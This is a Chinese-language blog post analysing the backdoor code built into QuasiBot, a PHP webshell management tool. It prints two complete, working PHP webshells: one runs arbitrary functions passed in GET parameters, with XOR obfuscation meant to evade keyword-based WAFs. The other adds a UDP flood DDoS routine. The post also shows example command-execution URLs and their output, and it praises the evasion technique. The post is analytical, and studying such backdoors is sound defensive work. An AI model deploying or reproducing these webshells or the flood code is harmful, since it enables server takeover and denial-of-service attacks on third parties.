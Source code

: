 ```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```



### 一、前言
最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台-``QuasiBot``。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析：``非DDoS``版 和``DDoS``版。

### 二、分析

#### 1. 非DDoS版

首先给出``非DDoS``版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个``if...elseif...``构成。

可以看到``elseif($_GET['___'])``直接运行从Get请求过来的参数``___``的函数。例如这里后门地址为：``http://www.virtual.com/ma.php``，那么构造如下请求就会让后门代码去执行``phpinfo()``函数来获取系统的相关信息。

	http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个``if($_GET['_'])``部分，当有参数``__``传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到``response``的注释``<!-- ... -->``里去了，这里有一定的隐藏效果。注意这里``print "<!--".$_="{:|";``这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个``"GET"``字符串：

	$_=($_^"<").($_^">").($_^"/");

``$_^"<"``会将 $_ 变量的第一个字符的ascii码与'<'的ascii码 进行异或，也就是``123``('{'的ascii码) 与``60``('<'的ascii码)进行异或：

	123^60 ==> 71 ('G')

得到ascii码``71``也就是字符``"G"``，通过相同方法构造出``"E"``和``"T"``，然后将其连接构成字符串``"GET"``。

然后根据php中的一个变量引用特性，以``${'_GET'}["__"]``作为参数调用函数``${'_GET'}["_"]()``。

这里的函数执行涉及到了php中``动态函数调用``和``花括号{}使用``的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中``{}``使用时需要注意的地方。

给出一个简单易懂的例子说明一下``动态函数调用``，看下面这段代码``demo.php``：

{% highlight php %}
<?php
$func = "demo";
function demo() {
	echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行``php demo.php``得到输出``Demo on!``。

看了这个demo.php再结合``{}``的使用就很容易理解后门中的这段代码：``${'_GET'}["__"](${'_GET'}["_"])``。

写得明显点就是：``$_GET["_"]($_GET["__"])``。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--{:|";
	$_GET["_"]($_GET["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行``system('dir')``，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

	<!--{:| 驱动器 D 中的卷没有标签。
	 卷的序列号是 2EE6-3EE0

	 D:\PhpStudy\WWW 的目录

	2014/12/03  21:05    <DIR>          .
	2014/12/03  21:05    <DIR>          ..
	2014/12/03  21:05    <DIR>          discuz
	2014/11/10  22:43    <DIR>          Documentation
	2014/11/22  02:13               431 function.php
	2014/12/04  17:37               226 ma.php
	2014/11/19  22:38    <DIR>          mybb
	2014/11/20  12:53    <DIR>          mybb1
	2014/10/21  17:11    <DIR>          phpMyAdmin
	2014/11/25  23:52    <DIR>          phpMyRecipes
	2014/11/25  14:59    <DIR>          phpok
	2014/11/15  11:36    <DIR>          piwigo
	2014/11/14  14:04    <DIR>          qibomenhu
	2014/11/26  08:55    <DIR>          quasibot
	2014/11/27  11:50    <DIR>          rocboss
	2014/11/21  00:25    <DIR>          sqli
	2014/11/14  15:59    <DIR>          thinksns
	2014/11/10  22:43    <DIR>          Tools
	2014/11/10  22:44    <DIR>          upload
	2014/12/03  19:36               256 upload.php
	2014/11/22  12:54    <DIR>          wordpress
	               3 个文件            913 字节
	              18 个目录 35,217,747,968 可用字节
	{:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
	@$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
	$fn0=0;
	$pm1=$_POST['time'];
	$yu2=time();
	$az3=$yu2+$pm1;
	$jd4=$_POST['target'];
	$kb5=gethostbyname($jd4);
	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}
	while(1) {
		$fn0++;
		if(time()>$az3) {
			break;
		}
		$yw8=rand(1,65553);
		$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
		if($vl9) {
			fwrite($vl9,$yf7);
			fclose($vl9);
		}
	}
} elseif($_POST['kill']=='1') {
	exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照``非DDoS版``的分析。直接看DDoS代码部分，这里通过``$_POST['target']``来获取目标，``$_POST['time']``为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造``65553``字节的超长数据通过``udp``的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造``65553``字节的数据：

	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}

随机生成端口号（最大不应该是65535？）：

	$yw8=rand(1,65553);

创建socket并发送数据：

	$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
	if($vl9) {
		fwrite($vl9,$yf7);
		fclose($vl9);
	}

至此``QuasiBot``两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（``非DDoS版``）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。

其中DDoS部分，没太明白为何是随机端口发送，持续跟进下。
